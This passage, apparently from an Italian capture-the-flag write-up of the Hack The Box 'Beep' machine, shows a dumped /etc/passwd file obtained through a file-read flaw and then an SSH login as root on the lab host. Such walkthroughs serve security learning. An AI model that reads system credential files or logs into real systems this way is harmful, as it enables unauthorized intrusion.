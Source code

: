 
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.

```

Quindi proviamo sempre ssh con utente root

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jun 20 13:49:24 2023 from 10.10.14.34

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]# 
```
